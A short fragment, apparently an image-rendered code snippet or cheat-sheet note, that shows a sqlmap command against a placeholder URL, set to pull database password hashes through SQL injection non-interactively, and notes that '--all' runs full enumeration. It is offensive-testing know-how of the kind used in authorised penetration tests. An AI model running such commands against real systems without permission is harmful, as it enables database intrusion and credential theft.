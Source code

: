 ```
```sqlmap -u "http://www.example.com/?id=1" --passwords --batch```

```--all``` with the ```--batch``` switch will do all the enumeration